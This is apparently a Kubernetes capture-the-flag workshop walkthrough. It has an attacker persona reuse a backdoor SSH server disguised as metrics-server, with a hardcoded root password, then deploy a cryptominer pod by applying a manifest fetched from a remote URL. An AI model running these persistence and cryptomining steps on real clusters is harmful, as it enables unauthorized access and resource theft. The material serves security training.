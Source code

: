# Persistence: Scenario 2 Attack

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ notices that public access to the cluster is gone and the cryptominers have stopped reporting in
* __Red__ is excited to discover that the SSH server they left behind is still active

## Re-establishing a Foothold

__Red__ reconnects to the cluster using the SSH service disguised as a *metrics-server* on the cluster. While having access to an individual container may not seem like much of a risk at first glance, this container has two characteristics that make it very dangerous:  

* There is a service account associated with the container which has been granted access to all kubernetes APIs
* The container is running with a privileged security context which grants it direct access to the host OS

## Deploying Miners

You will need the SSH server IP address that was deployed in the previous attack.  You can fetch it again in the hacked app by running:
```console
SSH_SERVER_IP=$(kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}')
echo $SSH_SERVER_IP
echo "SSH password is: Sup3r_S3cr3t_P@ssw0rd"
ssh root@$SSH_SERVER_IP -p 8080 -o StrictHostKeyChecking=no
```

Let's re-download kubectl and create our miner:
```console
apk update
apk add curl
cd /usr/local/bin
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod 555 kubectl
export KUBERNETES_SERVICE_HOST=kubernetes.default.svc
export KUBERNETES_SERVICE_PORT=443
kubectl apply -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml
```

Verify that the pod is running:
```console
kubectl get pods -n dev
```

The output should look something like this:
```console
NAME                           READY   STATUS    RESTARTS   AGE
bitcoinero-6b95755447-cttkz    1/1     Running   0          23s
insecure-app-66dffb686-tp46w   1/1     Running   0          24m
```

Time for some celebratory pizza! Go ahead and logout of the ssh session.
```console
exit
```